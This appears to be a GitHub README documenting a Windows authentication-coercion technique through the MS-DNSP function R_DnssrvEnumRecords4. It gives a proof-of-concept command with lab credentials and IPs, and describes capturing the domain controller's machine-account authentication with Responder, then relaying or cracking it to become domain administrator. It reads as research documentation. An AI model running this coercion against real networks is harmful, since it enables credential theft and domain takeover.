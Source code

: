 # MS-DNSP - Remote call to R_DnssrvEnumRecords4 (opnum 18)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvEnumRecords4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5f448507-49a3-4e9e-866e-54ff3eb7ea49)

 - **Function operation number**: `18`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords4`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5f448507-49a3-4e9e-866e-54ff3eb7ea49) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords4('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords4(
      [in]                                  handle_t      hBindingHandle,
      [in]                                  DWORD         dwClientVersion,
      [in]                                  DWORD         dwSettingFlags,
      [in, unique, string]                  LPCWSTR       pwszServerName,
      [in, unique, string]                  LPCWSTR       pwszVirtualizationInstanceID,
      [in, unique, string]                  LPCSTR        pszZone,
      [in, unique, string]                  LPCWSTR       pwszZoneScope,
      [in, unique, string]                  LPCSTR        pszNodeName,
      [in, unique, string]                  LPCSTR        pszStartChild,
      [in]                                  WORD          wRecordType,
      [in]                                  DWORD         fSelectFlag,
      [in, unique, string]                  LPCSTR        pszFilterStart,
      [in, unique, string]                  LPCSTR        pszFilterStop,
      [out]                                 PDWORD        pdwBufferLength,
      [out, size_is(, *pdwBufferLength)]    PBYTE *        ppBuffer
    );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvEnumRecords4`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/5f448507-49a3-4e9e-866e-54ff3eb7ea49